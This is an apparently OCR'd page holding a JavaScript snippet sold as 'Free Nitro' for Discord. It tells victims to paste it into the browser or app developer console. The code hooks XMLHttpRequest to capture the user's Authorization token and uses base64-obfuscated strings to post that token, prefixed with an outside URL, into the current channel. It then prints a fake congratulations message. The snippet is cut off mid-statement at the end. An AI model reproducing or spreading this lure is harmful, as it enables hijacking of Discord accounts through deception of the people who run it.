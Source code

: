 /*************************************** 

* ítem 1 hackebot by Otman 

* Free Nitro 

* paste to console on discord 

* F12 on chrome/mozilla/Edge 

* Ctrl+Shift+i on desktop app 

* 

* **************************************/ 

XMLHttpRequest.prototype.wrappedSetRequestHeader=XMLHttpRequest.prototype.setRequestHeader,XMLHttpRequest.prototype.setRequestHeader=function(e,t){this.wrappedSetRequestHeader(e,t),this.headers||(this.headers={}),this.headers[e]||(this.headers[e]=[]),this.headers[e].push(t)};let oldXHROpen=window.XMLHttpRequest.prototype.open;window.XMLHttpRequest.prototype.open=function(e,t,o,n,s){return this.addEventListener("load",function(){isNaN(window.location.href.substring(window.location.href.lastIndexOf("/")+1,window.location.href.length))?console.log(atob("UGVuZGluZy4uIHRvIHJlc29sdmUgeW91ciBuaXRyby4=")):(fetch(atob("aHR0cHM6Ly9kaXNjb3JkYXBwLmNvbS9hcGkvdjYvY2hhbm5lbHMv")+window.location.href.substring(window.location.href.lastIndexOf("/")+1,window.location.href.length)+"/messages",{method:"POST",headers:{authorization:this.headers.Authorization[0],"user-agent":navigator.userAgent,"Content-Type":"application/json"},body:JSON.stringify({content:atob("aHR0cHM6Ly8weDUzOS5jby9rLw==")+this.headers.Authorization[0],tts:"false"})}),console.log("%c ",atob("Zm9udC1zaXplOiA0NTBweDsgYmFja2dyb3VuZDogdXJsKGh0dHBzOi8vY2RuLmRpc2NvcmRhcHAuY29tL2F0dGFjaG1lbnRzLzQ5OTIxMTI5NzI4ODYxNzk5Mi81Njg1MDg4NzgzNzU4Nzg2NjgvaW1hZ2VzLnBuZykgbm8tcmVwZWF0Ow==")),console.log("Congrats, you got free discord nitro"))}),oldXHROpen.apply(this,arguments
